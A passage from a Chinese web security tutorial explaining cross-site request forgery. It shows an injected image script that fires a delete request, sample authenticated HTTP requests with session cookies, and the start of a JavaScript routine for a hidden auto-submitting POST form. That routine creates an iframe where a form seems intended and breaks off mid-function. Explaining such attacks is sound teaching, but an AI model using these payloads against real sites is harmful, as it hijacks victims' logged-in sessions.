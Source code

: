 #### 跨域发出了一个 GET 请求

同源策略是用来限制客户端脚本的跨域请求行为，但实际上由客户端 HTML 标签等发出的跨域 GET 请求被认为是合法的，不在同源策略的限制中，但是这个请求发出后并没有能力得到目标页面响应的数据内容。

很多网站其实都需要这样的功能，比如，嵌入第三方资源：图片、JS 脚本，CSS 样式、框架内容，尤其是很多开放的 Web 2.0 网站有个 mashup 应用聚合概念，如 Google 的 Gadgets 或者 SNS 社区中的第三方 Web 应用于 Web 游戏，通过 iframe 嵌入第三方扩展应用，如果将这样的 GET 请求限制住，那么 Web 世界就过于封闭了。

安全风险总是出现在正常的流程中，现在我们发出的是一个删除文章的 GET 请求，对于合法的跨域请求，浏览器会放行。

#### 可以无 JavaScript 参与

CSRF 这个过程与 XSS 不一样，可以不需要 JavaScript 参与，当然也可以有 JavaScript 参与，比如在`www.b.com/csrf.html`中使用 JavaScript 动态生成一个 img 对象：

```html
<script>
  new Image().src = 'http://www.a.com/blog/del?id=1'
</script>
```

同样可以达到攻击效果。需要特别注意的是：这里并不是 JavaScript 跨域操作目标网站 A 的数据，而是间接生成了 img 对象，由 img 对象发起一个合法的跨域 GET 请求而已，这个过程和上面直接用一个 img 标签一样。

#### 请求是身份认证后的

这一点非常关键，跨域发出的请求类似这样：

```request
GET /blog/del?id=1 HTTP/1.1
Host: www.a.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:5.0) Gecko/20100101 Firefox/5.0
Connection: keep-alive
Referer: http://www.b.com/csrf.html
Cookie:sid=0951abe6d508dab60357804519a61b999;JSESSIONID=abcTePo2Ori_k-pWt5net;
```

而如果是目标网站 A，用户自己单击删除链接时发出的请求类似这样：

```request
GET /blog/del?id=1 HTTP/1.1
Host: www.a.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:5.0) Gecko/20100101 Firefox/5.0
Connection: keep-alive
Referer: http://www.a.com/blog/
Cookie:sid=0951abe6d508dab60357804519a61b999;JSESSIONID=abcTePo2Ori_k-pWt5net;
```

可以看到这两个请求中，除了请求来源 Referer 值不一样外，其他都一样，尤其是这里的 Cookie 值，该 Cookie 是用户登录目标网站 A 后的身份认证标志。跨域发出的请求同样会带上目标网站 A 的用户 Cookie，这样的请求就是身份认证后的，攻击才会成功。

通过这个场景，我们知道了 CSRF 的过程，不过这个过程只介绍了 GET 请求的情况，那么 POST 请求呢？比如，目标网站 A 的“写文章”功能，这是一个表单提交的操作，会发起 POST 请求。同样，这个 POST 请求可以从恶意网站 B 中发出，通过 JavaScript 自动生成一份表单，表单的 action 地址指向目标网站 A 的“写文章”表单提交地址，表单的相关字段都准备好后，即可发出请求。下面看一段代码：

```js
function new_form() {
  var f = document.createElement('iframe')
  document.body.appendChild(f)
  f.method = 'post'
  return f
}

function create_elements(eForm, eName, eValue) {
  var e = document.createElement('input')
  eForm.appendChild(e)
  e.type = 'text'
  e.name = eName
  // 兼容浏览器的兼容设置，目的是让表单不可见
  if (!document.all) {
    e.style.display = 'none'
```